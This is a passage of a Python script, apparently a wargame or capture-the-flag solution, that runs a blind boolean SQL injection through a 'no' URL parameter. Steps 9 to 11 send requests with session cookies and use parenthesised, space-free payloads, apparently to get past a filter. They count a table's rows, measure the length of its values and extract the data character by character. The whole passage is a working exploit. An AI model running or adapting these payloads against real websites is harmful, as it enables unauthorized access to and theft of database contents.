 ```python
            break


# 9. Find the number of rows in table1
row_num = 0
for i in range(1, 20):
    payload = f"(0)or(select(count({column_name}))from({table1_name}))in({i})"

    response = requests.get(f"{url}?no={payload}", cookies=cookies)

    if "<td>1</td>" in response.text:
        row_num = i
        print(f"row_num: {row_num}")
        break

# 10. Fine the length of each row
data1_len = 0
for i in range(1, 20):
    payload = f"(0)or(length((select(min({column_name}))from({table1_name})))in({i}))"

    response = requests.get(f"{url}?no={payload}", cookies=cookies)

    if "<td>1</td>" in response.text:
        data1_len = i
        print(f"data1_len: {data1_len}")
        break

data2_len = 0
for i in range(1, 30):
    payload = f"(0)or(length((select(max({column_name}))from({table1_name})))in({i}))"

    response = requests.get(f"{url}?no={payload}", cookies=cookies)

    if "<td>1</td>" in response.text:
        data2_len = i
        print(f"data2_len: {data2_len}")
        break

# 11. Find the data
data = ''
for i in range(1, data2_len + 1):
    for j in range(32, 128):
        payload = f"(0)or(ord(substr((select(max({column_name}))from({table1_name})),{i},1))in({j}))"

        response = requests.get(f"{url}?no={payload}", cookies=cookies)

        if "<td>1</td>" in response.text:
            data += chr(j)
            print(f"data: {data}")
            break
```
